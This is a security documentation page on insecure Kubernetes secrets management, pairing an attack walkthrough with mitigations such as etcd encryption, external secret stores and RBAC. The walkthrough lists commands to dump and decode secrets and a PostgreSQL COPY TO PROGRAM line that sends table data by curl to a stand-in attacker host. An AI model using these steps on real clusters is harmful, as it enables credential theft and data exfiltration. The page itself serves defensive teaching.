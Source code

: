```yaml
---
sidebar_position: 5
title: Insecure Secrets Management
description: Understanding the risks of insecure secrets management in Kubernetes and best practices to securely handle sensitive data.
---
```


# Insecure Secrets Management

Insecure secrets management in Kubernetes can lead to the exposure of sensitive data, such as API keys, database credentials, and certificates. Storing secrets in plaintext or using insecure backends increases the risk of unauthorized access by attackers.

---

## Exploitation Steps: Accessing Insecurely Stored Secrets

An attacker can identify Kubernetes Secrets stored in plaintext using the following command:

```bash
kubectl get secrets -o yaml
```

### 1. Decode a Kubernetes Secret

The attacker extracts and decodes a Base64-encoded secret:

```bash
kubectl get secret db-secret -o go-template='{{.data.password|base64decode}}'
```

### 2. Access Sensitive Services Using Exposed Credentials

The attacker uses the decoded credentials to access a database:

```bash
psql -h <database-ip> -U admin -W
```

### 3. Exfiltrate Data from the Database

The attacker exports sensitive data from the database to an external server:

```sql
COPY (SELECT * FROM sensitive_data) TO PROGRAM 'curl -X POST -d @- http://attacker.com/upload';
```

### Result

The attacker can access and exfiltrate sensitive data, potentially causing data breaches and regulatory compliance violations.

---

## Mitigation Techniques and Fixes

### 1. Encrypt Secrets at Rest

**Issue:** Secrets stored in etcd are not encrypted by default.
**Fix:** Enable encryption at rest in the Kubernetes configuration.

#### Example Encryption Configuration for etcd

```yaml
apiVersion: apiserver.config.k8s.io/v1
kind: EncryptionConfiguration
resources:
- resources:
  - secrets
  providers:
  - aescbc:
      keys:
      - name: key1
        secret: c2VjcmV0LWtleS1mb3ItZW5jcnlwdGlvbg==
  - identity: {}
```

### 2. Use External Secret Management Solutions

**Issue:** Kubernetes Secrets alone do not provide advanced security features.
**Fix:** Integrate with external secret management tools like HashiCorp Vault, AWS Secrets Manager, or Azure Key Vault.

#### Example of Using External Secrets with Kubernetes

```yaml
apiVersion: secrets-store.csi.x-k8s.io/v1
kind: SecretProviderClass
metadata:
  name: vault-secrets
spec:
  provider: vault
  parameters:
    vaultAddress: "https://vault.example.com"
    roleName: "k8s-role"
    objects: |
      array:
        - objectName: "db-password"
          secretPath: "secret/data/db"
          secretKey: "password"
```

### 3. Limit Access to Secrets with RBAC

**Issue:** Lack of access controls allows unauthorized access to secrets.
**Fix:** Implement Role-Based Access Control (RBAC) to restrict secret access.

#### Example of RBAC Policy for Secret Access

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  namespace: default
  name: secret-reader
rules:
- apiGroups: [""]
  resources: ["secrets"]
  verbs: ["get"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: read-secrets
  namespace: default
subjects:
- kind: ServiceAccount
  name: secret-reader-sa
roleRef:
  kind: Role
  name: secret-reader
  apiGroup: rbac.authorization.k8s.io
```

---

## Conclusion

To securely manage Kubernetes secrets:

- Always enable encryption at rest using etcd encryption.
- Utilize external secret management solutions for enhanced security.
- Apply RBAC policies to restrict access to sensitive data.
